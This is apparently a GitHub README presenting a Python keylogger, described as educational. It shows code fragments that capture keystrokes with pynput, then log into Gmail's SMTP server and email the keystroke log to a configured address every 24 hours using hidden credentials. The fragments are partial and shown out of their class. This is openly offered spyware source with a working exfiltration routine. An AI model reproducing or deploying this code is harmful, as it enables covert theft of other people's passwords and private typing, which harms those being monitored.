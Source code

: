 # Keylogger
```
Keylogger with send message gmail
The program reads the buttons entered from the keyboard key
Sends in the form of a log to the mail
```
```
The program is written for educational purposes.
```

# Import
```python
import pynput.keyboard
import threading
import smtplib
```

# Constructor
First email notification start keyloger
```python
def __init__(self, time_interval_send, email, password):
    self.log = 'Keylogger started'
    self.interval = time_interval_send
    self.email = email
    self.password = password
```

# Explanation
Settings may differ from preference and SMTP. Server
Debuglevel -> False, Turns on when debugging a program
```python
def send_mail(email, password, message):
    """Send email smtp.google.com"""
    server = smtplib.SMTP_SSL('smtp.gmail.com', 465)
    server.set_debuglevel(False)
    server.login(email, password)
    server.auth_plain()
    server.sendmail(email, email, message)
    server.quit()
```
# Zilogger
Gets the input time interval for sending email, and variables from the config.py(is hidden) file for authorization on the SMTP server
```python
import keylogger
import config

# 86400 second -> 24 hours
my_keylogger = keylogger.Keylogger(86400, config.EMAIL, config.PASSWORD)
my_keylogger.start()
```
